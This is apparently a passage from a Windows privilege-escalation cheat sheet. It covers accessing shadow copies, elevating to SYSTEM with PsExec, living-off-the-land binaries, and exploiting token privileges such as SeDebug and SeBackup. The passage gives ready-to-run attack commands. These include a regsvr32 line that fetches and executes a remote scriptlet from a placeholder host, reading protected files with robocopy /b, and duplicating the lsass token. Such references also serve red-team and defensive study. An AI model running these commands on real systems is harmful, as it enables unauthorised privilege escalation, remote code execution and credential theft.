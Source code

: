 If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
# List shadow copies using diskshadow
diskshadow list shadows all
  
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

### EoP - From local administrator to NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```

### EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

* Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra "unexpected" functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
* Have functionality that would be useful to an APT or red team

```powershell
wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```

### EoP - Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.

| Privilege              | Impact      | Tool                    | Execution path                                                                                                                                                                                                                                                                                                                                     | Remarks                                                                                                                                                                                                                                                                                                                        |
| ---------------------- | ----------- | ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `SeAssignPrimaryToken` | _**Admin**_ | 3rd party tool          | _"It would allow a user to impersonate tokens and privesc to nt system using tools such as potato.exe, rottenpotato.exe and juicypotato.exe"_                                                                                                                                                                                                      | Thank you [Aurélien Chalot](https://twitter.com/Defte\_) for the update. I will try to re-phrase it to something more recipe-like soon.                                                                                                                                                                                        |
| `SeBackup`             | **Threat**  | _**Built-in commands**_ | Read sensitve files with `robocopy /b`                                                                                                                                                                                                                                                                                                             | <p>- May be more interesting if you can read %WINDIR%\MEMORY.DMP<br><br>- <code>SeBackupPrivilege</code> (and robocopy) is not helpful when it comes to open files.<br><br>- Robocopy requires both SeBackup and SeRestore to work with /b parameter.</p>                                                                      |
| `SeCreateToken`        | _**Admin**_ | 3rd party tool          | Create arbitrary token including local admin rights with `NtCreateToken`.                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                                                                                                                |
| `SeDebug`              | _**Admin**_ | **PowerShell**          | Duplicate the `lsass.exe` token.                                                                                                                                                                                                                                                                                                                   | Script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)                                                                                                                                                                                                         |